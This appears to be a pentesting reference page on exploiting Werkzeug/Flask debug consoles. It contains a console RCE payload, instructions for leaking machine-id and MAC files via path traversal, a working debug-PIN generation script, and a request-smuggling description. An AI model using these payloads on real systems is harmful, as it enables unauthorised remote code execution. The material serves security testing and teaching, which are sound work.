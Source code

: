 # Werkzeug / Flask Debug


<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Instantly available setup for vulnerability assessment & penetration testing**. Run a full pentest from anywhere with 20+ tools & features that go from recon to reporting. We don't replace pentesters - we develop custom tools, detection & exploitation modules to give them back some time to dig deeper, pop shells, and have fun.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

If debug is active you could try to access to `/console` and gain RCE.

```python
__import__('os').popen('whoami').read();
```

![](<../../.gitbook/assets/image (117).png>)

There is also several exploits on the internet like [this ](https://github.com/its-arun/Werkzeug-Debug-RCE)or one in metasploit.

## Pin Protected - Path Traversal

In some occasions the **`/console`** endpoint is going to be protected by a pin. If you have a **file traversal vulnerability**, you can leak all the necessary info to generate that pin.

### Werkzeug Console PIN Exploit

Force a debug error page in the app to see this:

```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```

A message regarding the "console locked" scenario is encountered when attempting to access Werkzeug's debug interface, indicating a requirement for a PIN to unlock the console. The suggestion is made to exploit the console PIN by analyzing the PIN generation algorithm in Werkzeug’s debug initialization file (`__init__.py`). The PIN generation mechanism can be studied from the [**Werkzeug source code repository**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py), though it is advised to procure the actual server code via a file traversal vulnerability due to potential version discrepancies.

To exploit the console PIN, two sets of variables, `probably_public_bits` and `private_bits`, are needed:

#### **`probably_public_bits`**

* **`username`**: Refers to the user who initiated the Flask session.
* **`modname`**: Typically designated as `flask.app`.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Generally resolves to **Flask**.
* **`getattr(mod, '__file__', None)`**: Represents the full path to `app.py` within the Flask directory (e.g., `/usr/local/lib/python3.5/dist-packages/flask/app.py`). If `app.py` is not applicable, **try `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`**: Fetches the MAC address of the current machine, with `str(uuid.getnode())` translating it into a decimal format.
  * To **determine the server's MAC address**, one must identify the active network interface used by the app (e.g., `ens3`). In cases of uncertainty, **leak `/proc/net/arp`** to find the device ID, then **extract the MAC address** from **`/sys/class/net/<device id>/address`**.
  *   Conversion of a hexadecimal MAC address to decimal can be performed as shown below:

      ```python
      # Example MAC address: 56:00:02:7a:23:ac
      >>> print(0x5600027a23ac)
      94558041547692
      ```
* **`get_machine_id()`**: Concatenates data from `/etc/machine-id` or `/proc/sys/kernel/random/boot_id` with the first line of `/proc/self/cgroup` post the last slash (`/`).

<details>

<summary>Code for `get_machine_id()`</summary>

```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
    global _machine_id

    if _machine_id is not None:
        return _machine_id

    def _generate() -> t.Optional[t.Union[str, bytes]]:
        linux = b""

        # machine-id is stable across boots, boot_id is not.
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue

            if value:
                linux += value
                break

        # Containers share the same machine id, add some cgroup
        # information. This is used outside containers too but should be
        # relatively stable across boots.
        try:
            with open("/proc/self/cgroup", "rb") as f:
                linux += f.readline().strip().rpartition(b"/")[2]
        except OSError:
            pass

        if linux:
            return linux

        # On OS X, use ioreg to get the computer's serial number.
        try:
```

</details>

Upon collating all necessary data, the exploit script can be executed to generate the Werkzeug console PIN:

Upon collating all necessary data, the exploit script can be executed to generate the Werkzeug console PIN. The script uses the assembled `probably_public_bits` and `private_bits` to create a hash, which then undergoes further processing to produce the final PIN. Below is the Python code for executing this process:

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

This script produces the PIN by hashing the concatenated bits, adding specific salts (`cookiesalt` and `pinsalt`), and formatting the output. It's important to note that the actual values for `probably_public_bits` and `private_bits` need to be accurately obtained from the target system to ensure the generated PIN matches the one expected by the Werkzeug console.


## Werkzeug Unicode chars

As observed in [**this issue**](https://github.com/pallets/werkzeug/issues/2833), Werkzeug doesn't close a request with Unicode characters in headers. And as explained in [**this writeup**](https://mizu.re/post/twisty-python), this might cause a CL.0 Request Smuggling vulnerability.

This is because, In Werkzeug it's possible to send some **Unicode** characters and it will make the server **break**. However, if the HTTP connection was created with the header **`Connection: keep-alive`**, the body of the request won’t be read and the connection will still be open, so the **body** of the request will be treated as the **next HTTP request**.

## Automated Exploitation

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## References

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Instantly available setup for vulnerability assessment & penetration testing**. Run a full pentest from anywhere with 20+ tools & features that go from recon to reporting. We don't replace pentesters - we develop custom tools, detection & exploitation modules to give them back some time to dig deeper, pop shells, and have fun.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

